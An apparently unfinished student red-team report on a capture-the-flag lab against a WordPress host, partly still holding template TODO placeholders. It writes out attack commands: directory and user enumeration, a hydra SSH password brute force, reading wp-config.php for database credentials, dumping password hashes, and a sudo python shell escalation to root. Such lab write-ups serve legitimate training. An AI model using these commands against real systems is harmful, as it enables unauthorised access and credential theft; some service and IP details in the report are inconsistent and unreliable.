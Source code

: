 # Red Team: Summary of Operations

## Table of Contents
- Exposed Services
- Critical Vulnerabilities
- Exploitation

### Exposed Services

Nmap scan results for each machine reveal the below services and OS details:

```bash
nmap -sS -A 192.168.1.110

```
  ![](../images/nmap-a1.png)
  ![](../images/nmap-a2.png)


This scan identifies the services below as potential points of entry:

- **Target 1**

- Open port 22 dedicated to SSH services
- Open port 80 dedicated to HTTP services
- Apache http version 2.4.1.0 running on the open port 22
- OS version Windows 6.1 (Smba 4.2)


  

_TODO: Fill out the list below. Include severity, and CVE numbers, if possible._

The following vulnerabilities were identified on each target:
- Target 1
  - List of
  - Critical
  - Vulnerabilities

_TODO: Include vulnerability scan results to prove the identified vulnerabilities._

### Exploitation


The Red Team was able to penetrate `Target 1` and retrieve the following confidential data:

- **Target 1**

  - [Flag 1 Screen Shot ](../images/flag1-view-source2.png), `Flag1.txt`: **flag1{b9bbcb33e1b80be759c4e844862482d}**
   
    - **Exploit Used**

      - Using gobuster to identify web directories and exploring them during scanning and enumeration 
      - **`gobuster -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium dir -e -u http://192.168.1.110 -x .php,txt,html`**

      - Upon inspection of the source code of service page flag1 was identified in comments under the code for the html footer

  - [Flag 2 Screen Shot](../images/flag2.png), `Flag2.txt`: **flag2{fc3fd58dcdad9ab23faca6e9a36e581c}**

    - **Exploit Used**
     - Remote SSH connection after identifying a user with wpscan. One of the users identified was michael
     - `wpscan --url http://192.168.1.110/wordpress -eu`

     - Brute forcing the pssword for michael wiht hydra
     - **`hydra -l michael -P /usr/share/wordlists/rockyou.txt ssh://192.168.1.110 -t 4`**

     - Connecting via SSH as Michael
     - **`ssh michael@192.168.1.10`**

     - Searching for the flag
     - **`find -type f -iname ‘flag*’ 2>dev/null`**
    
  - [Flag 3 Screen Shot](../images/flag34-2.png), Flag3.txt: **flag3{afc01ab56b50591e7dccf93122770cd2}**

    - Inspecting wp-config.php to look for root access password to MySQL database
    - **`cat /var/www/html/wordpress/wp-config.php`**

    - Loging on to the MySQL server
    - **`mysql -u root -p`**

    - Inspecting MySQL tables  for flags
    - **`show databases;`**
    - **`show tables`**
    - **`select * from wp_posts;`**

  - [Flag 4 Screen Shot](../images/flag4.png), Flag4.txt: **flag4{715dea6c055b9fe3337544932f2941ce}**
    - The hashes found in the MySQL table using **`select * from wp_users;`** are used to identify the password for Steven
    - Steven's account needed to be used as Michal's accound did not have write privilidges or for `sudo` privilidges to execute python code
    - **`ssh steven@192.168.1.10`** is used to connect to Target 1 via Steven's credentials

    - The code below is esclates to root privilidges and flag 4 was found inside the root directory
    - `sudo python -c 'import pty;pty.spawn("/bin/bash");'`

